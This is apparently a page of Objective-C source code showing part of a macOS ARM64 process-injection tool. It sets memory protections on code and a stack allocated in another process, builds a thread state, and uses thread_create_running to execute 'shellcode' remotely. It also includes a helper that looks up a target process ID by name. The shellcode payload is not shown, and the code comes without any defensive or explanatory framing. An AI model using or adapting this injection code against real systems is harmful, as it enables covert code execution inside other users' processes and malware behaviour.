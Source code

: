 ```objectivec
{
fprintf(stderr,"Unable to set memory permissions for remote thread's code: Error %s\n", mach_error_string(kr));
return (-4);
}

// Set the permissions on the allocated stack memory
kr  = vm_protect(remoteTask, remoteStack64, STACK_SIZE, TRUE, VM_PROT_READ | VM_PROT_WRITE);

if (kr != KERN_SUCCESS)
{
fprintf(stderr,"Unable to set memory permissions for remote thread's stack: Error %s\n", mach_error_string(kr));
return (-4);
}

// Create thread to run shellcode
struct arm_unified_thread_state remoteThreadState64;
thread_act_t         remoteThread;

memset(&remoteThreadState64, '\0', sizeof(remoteThreadState64) );

remoteStack64 += (STACK_SIZE / 2); // this is the real stack
//remoteStack64 -= 8;  // need alignment of 16

const char* p = (const char*) remoteCode64;

remoteThreadState64.ash.flavor = ARM_THREAD_STATE64;
remoteThreadState64.ash.count = ARM_THREAD_STATE64_COUNT;
remoteThreadState64.ts_64.__pc = (u_int64_t) remoteCode64;
remoteThreadState64.ts_64.__sp = (u_int64_t) remoteStack64;

printf ("Remote Stack 64  0x%llx, Remote code is %p\n", remoteStack64, p );

kr = thread_create_running(remoteTask, ARM_THREAD_STATE64, // ARM_THREAD_STATE64,
(thread_state_t) &remoteThreadState64.ts_64, ARM_THREAD_STATE64_COUNT , &remoteThread );

if (kr != KERN_SUCCESS) {
fprintf(stderr,"Unable to create remote thread: error %s", mach_error_string (kr));
return (-3);
}

return (0);
}

pid_t pidForProcessName(NSString *processName) {
NSArray *arguments = @[@"pgrep", processName];
NSTask *task = [[NSTask alloc] init];
[task setLaunchPath:@"/usr/bin/env"];
[task setArguments:arguments];

NSPipe *pipe = [NSPipe pipe];
[task setStandardOutput:pipe];

NSFileHandle *file = [pipe fileHandleForReading];

[task launch];

NSData *data = [file readDataToEndOfFile];
NSString *string = [[NSString alloc] initWithData:data encoding:NSUTF8StringEncoding];

return (pid_t)[string integerValue];
}
```
